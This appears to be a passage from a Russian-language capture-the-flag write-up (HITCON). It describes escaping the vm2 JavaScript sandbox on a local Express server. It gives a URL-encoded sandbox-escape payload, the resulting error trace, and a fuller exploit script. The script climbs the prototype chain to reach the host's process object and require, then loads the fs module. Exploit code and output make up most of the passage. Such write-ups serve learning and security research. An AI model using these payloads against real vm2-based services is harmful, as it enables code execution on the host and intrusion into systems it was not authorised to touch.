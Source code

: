 Так так :), значит все работает и теперь мы можем внедрять код любой длины, не преживая о проверке в 12 символов. Это нас не останавливает теперь.

Остается понять как же быть дальше? В итоге после гугления, выделяю несколько ссылок, с информацией о багах и обходах песочницы в VM2 (https://github.com/patriksimek/vm2/issues/32).

Пробуем применить подходы, которые описаны в этом тикете. К примеру попробуем отправить следующую строку:

```javascript
global.constructor.constructor('return this')().constructor.constructor('return process')()
```

В итоге получается следующий запрос:

```
http://localhost:3000/?data[]=global.constructor.constructor%28%27return%20this%27%29%28%29.constructor.constructor%28%27return%20process%27%29%28%29
```

И ответ:

```
ReferenceError: process is not defined
   at eval (eval at <anonymous> (vm.js:1:61), <anonymous>:2:8)
   at vm.js:1:90
   at ContextifyScript.Script.runInContext (vm.js:35:29)
   at VM.run (/root/HITCON/node_modules/vm2/lib/main.js:119:52)
   at /root/HITCON/server.js:21:33
   at Layer.handle [as handle_request] (/root/HITCON/node_modules/express/lib/router/layer.js:95:5)
   at next (/root/HITCON/node_modules/express/lib/router/route.js:131:13)
   at Route.dispatch (/root/HITCON/node_modules/express/lib/router/route.js:112:3)
   at Layer.handle [as handle_request] (/root/HITCON/node_modules/express/lib/router/layer.js:95:5)
   at /root/HITCON/node_modules/express/lib/router/index.js:277:22
```

Хм не работает. Пробуем еще что нить в этом смысле:

```javascript
'use strict';
const {VM} = require('vm2');
const vm = new VM();
vm.run(`
    /*function getParent(o) {
        return o.constructor.constructor('return this')();
    }*/

    function getParent(o) {
        return o.__proto__.constructor.constructor('return this')();
    }

    function exploit(o) {
        const foreignFunction = o.constructor.constructor;
        const process = foreignFunction('return process')();
        const require = process.mainModule.require;
        const console = require('console');
        const fs = require('fs');

        console.log('\u{1F60E} ', fs.statSync('.'), '\u{1F60E}');

        return o;
    }

    (function () {
        exploit(getParent(getParent(arguments.callee.caller)));
    })();
`);
```
